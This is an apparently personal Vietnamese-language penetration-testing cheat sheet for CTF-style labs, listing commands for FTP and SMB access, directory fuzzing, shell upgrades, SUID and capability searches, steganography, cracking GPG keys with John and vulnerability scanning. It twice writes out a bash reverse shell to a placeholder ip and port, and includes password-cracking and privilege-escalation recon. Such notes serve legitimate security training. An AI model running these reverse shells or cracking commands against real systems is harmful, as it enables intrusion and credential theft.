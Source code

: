 
# FTP

**kết nối**

```
ftp ip
```
*khai báo tên thì có thể đăng nhâp bằng **anonymous***

**đọc file**
```
more tên file
```

**lấy file về**

```
get tên file
```

**upfile**

```
put tên file
```

*lưu ý: máy tên file phải nằm trong thư mục nơi mà kết nối với máy chủ thì mới có thể up lên được*

**shell đảo ngược .sh ftp**

```
#!bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```

# SMB

**liệt kê**

```
enum4linux -a ip
```

**kết nối **

```
smbclient //ip/tên
```


# rvshell .sh

```
#!bin/bash
bash -i >& /dev/tcp/ip/port 0>&1 
```

# liệt kê file, thư mục web


```
dirb http://10.10.62.96
dirsearch -u http://10.10.163.114/ -e "" -x 403 | tee dirsearch.log
python JSFinder.py -u http://10.10.162.43/ 
```

**kiểm tra lỗ hổng web**

```
dirsearch -u http://10.10.163.114/ -e "" -x 403 | tee dirsearch.log
```

**ffuf**

```
ffuf -u http://ip/FUZZ -w ../../wordlists/directory/directory-list-2.3-medium.txt -e .php,.html,.txt
```

# shell pty

```
script -q /dev/null /bin/bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# tìm tệp suid

```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```

# tệp khả năng

```
getcap -r
```


# database 

***postgresql***

kết nối

```
psql -h 127.0.0.1 -U username
```


# nhúng ảnh

thông tin ảnh

```
exiftool tên
```

giải nén ảnh

```
steghide extract -sf tên
binwalk -e tên
```

xem ảnh có bị nhúng file gì k? có mk thì ấn enter 

```
steghide info tên
```


# gpg
giải nén yêu cầu khóa riêng. khóa riêng thường trong tệp asc

```
gpg2john  tryhackme.asc > tryhack.txt
```

```
john --wordlist=../Downloads/rockyou.txt tryhack.txt
```

```
john --show tryhack.txt
```


```
gpg --decrypt tên.pgp
```

```
gpg --decrypt CustomerDetails.xlsx.gpg > results.xlsx

```

# ppk ->rsa

```
puttygen file.ppk -O private-openssh -o id_rsa
```

# quét lỗ hổng

```
nmap -sV -sC -Pn -min-rate 5000 --script vuln -p- ip
nikto -h 10.10.107.163 | tee nikto-results

```

# lỗ hổng shellshock

https://github.com/opsxcq/exploit-CVE-2014-6271

# lỗ hổng kernel
```
uname -a
```

tìm lỗ hổng bản kernel
```
searchsploit bản kernel
```


# gcc

biên dịch file c++ thành file có thể thực thi được trên linux

```
gcc file.c -o tên_mới
```


# mã hóa url

```
python -c "import urllib.parse; print(urllib.parse.quote('😼-#zatschi-#whoneedsfourlegs-1572600969477.jpg'))"
```


# chạy liên tục
```
for i in {1..10}; do curl http://127.0.0.1:3000/rest/captcha/; done
```


# liệt kê mạng xã hội

```
python3 sherlock tên
```

**cài đặt sherlock**
https://github.com/sherlock-project/sherlock

tải về rồi sau đó tiến hành cài đặt

vào **sherlock-master**
```
python3 -m pip install -r requirements.txt
```

sau khi chạy xong thì có thể liệt kê như lệnh trên


# sql injections

